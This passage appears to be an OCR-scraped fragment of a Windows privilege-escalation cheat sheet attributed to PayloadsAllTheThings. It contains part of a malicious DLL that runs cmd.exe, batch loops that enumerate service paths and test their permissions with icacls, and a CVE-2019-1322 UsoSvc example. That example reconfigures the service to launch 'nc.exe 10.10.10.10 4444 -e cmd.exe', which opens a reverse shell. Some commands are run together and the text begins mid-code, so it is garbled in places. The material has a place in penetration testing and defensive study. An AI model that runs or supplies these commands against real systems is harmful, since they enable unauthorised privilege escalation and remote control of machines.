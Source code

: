 system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
ExitProcess(0);
} return TRUE;
}

- PATH directories with weak permissions

$ for  /f "tokens=2 delims='='"  %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do  @echo  %a >> c:\windows\temp\permissions.txt

$ for  /f eol^=^"^ delims^=^"  %a in (c:\windows\temp\permissions.txt) do  cmd.exe  /c icacls "%a"$ sc query state=all | findstr "SERVICE_NAME:"  >> Servicenames.txtFOR  /F %i in (Servicenames.txt) DO echo %i

type Servicenames.txtFOR  /F "tokens=2 delims= "  %i in (Servicenames.txt) DO  @echo  %i >> services.txtFOR  /F %i in (services.txt) DO  @sc qc %i | findstr "BINARY_PATH_NAME"  >> path.txt

Alternatively you can use the Metasploit exploit : `exploit/windows/local/service_permissions`

Note to check file permissions you can use `cacls` and `icacls`
> icacls (Windows Vista +)
> cacls (Windows XP)

You are looking for `BUILTIN\Users:(F)`(Full access), `BUILTIN\Users:(M)`(Modify access) or `BUILTIN\Users:(W)`(Write-only access) in the output.

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='59'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1845' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc)Example with Windows 10 - CVE-2019-1322 UsoSvc

Prerequisite: Service account
PS C:\Windows\system32>  sc.exe stop UsoSvc

PS C:\Windows\system32>  sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"PS C:\Windows\system32>  sc.exe config UsoSvc binpath=  "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"PS C:\Windows\system32>  sc.exe config UsoSvc binpath=  "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"PS C:\Windows\system32>  sc.exe qc usosvc

[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: usosvc
TYPE : 20 WIN32_SHARE_PROCESS START_TYPE : 2 AUTO_START (DELAYED)
ERROR_CONTROL : 1 NORMAL
